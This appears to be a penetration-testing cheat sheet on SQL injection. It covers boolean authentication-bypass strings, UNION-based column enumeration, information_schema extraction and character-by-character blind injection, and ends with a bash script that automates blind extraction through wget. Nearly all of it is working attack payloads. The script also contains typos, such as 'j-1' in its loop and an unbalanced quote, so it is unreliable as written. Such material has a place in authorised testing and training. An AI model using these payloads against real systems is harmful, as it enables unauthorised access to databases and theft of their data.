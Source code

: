 # SQL Injection

## Basic

```bash
' or 1=1-- -
' or '1'='1
test' and 'a'='a
test' and 'a'='ab
```

## UNION

Find the number of fields with visible changes  

```bash
' union select null-- -
# increase the number of nulls until no error is provided
' union select null,null,null,null,null,null-- -
# sometimes a specific field requires an int or a string, you may need to play with that
```

Find the number of columns with no visible changes  

```bash
' order by 1-- -
# increase this number until either an error or some other change occurs
```

Extract data  

```bash
' union select table_name, column_name, null,null,null from information_schema.columns-- -
```


## Blind Injections

Use TRUE and FALSE conditions  

If only an ID of 1 exists:  

```bash
1' and 'a'='a   # TRUE
1' and 'a'='b   # FALSE
```

Extract information 1 character at a time

```bash
1' and substring(@@version,1,1)='1    # FALSE
# increment the last number until the true condition appears
1' and substring(@@version,1,1)='5    # TRUE
```

When you hit a true statement, increment the position argument of the substring funtion  

```bash
1' and substring(@@version,2,1)='1    # FALSE
# Increment the last number until the true condition appears
```

This bash script can help with automation. Otherwise, use sqlmap  

```bash
#!/bin/bash

charset=`echo {0..9} {A..z} \. \: \, \; \- \_ \@`

export URL=""
export truestring=""
export maxlength=$1
export query=$2

export result=""

echo "Extracting the results for $query..."

for ((j-1;j<$maxlength;j+=1))
do
  export nthchar=$j
  
  for i in $charset
  do
    wget "$URL?id=1' and substring(($query),$nthchar,1)='$i' -q -0 - | grep "$truestring" &> /dev/null
    if [ "$?" == "0" ]
    then
      echo Character number $nthchar found $i
      export result+=$i
      break
    fi
  done
done

echo Result: $result
```
